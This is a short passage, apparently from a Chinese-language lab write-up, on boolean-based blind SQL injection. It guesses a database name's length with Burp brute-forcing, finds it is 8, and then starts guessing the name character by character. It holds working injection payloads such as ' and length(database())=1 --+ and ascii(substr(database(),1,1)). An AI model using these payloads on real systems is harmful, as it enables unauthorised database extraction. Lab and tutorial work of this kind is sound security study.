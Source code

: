 先猜数据库名长度，用burp爆破

```
?id=1' and length(database())=1 --+
```

![image-20250903185049953](images/image-20250903185049953.png)

#### 当数值为8的时候有回显，可以判断数据库长度为8位

![image-20250903185312349](images/image-20250903185312349.png)



再逐字符猜：

```
?id=1' and ascii(substr(database(),1,1))=1 --+
```

![image-20250903190104552](images/image-20250903190104552.png)
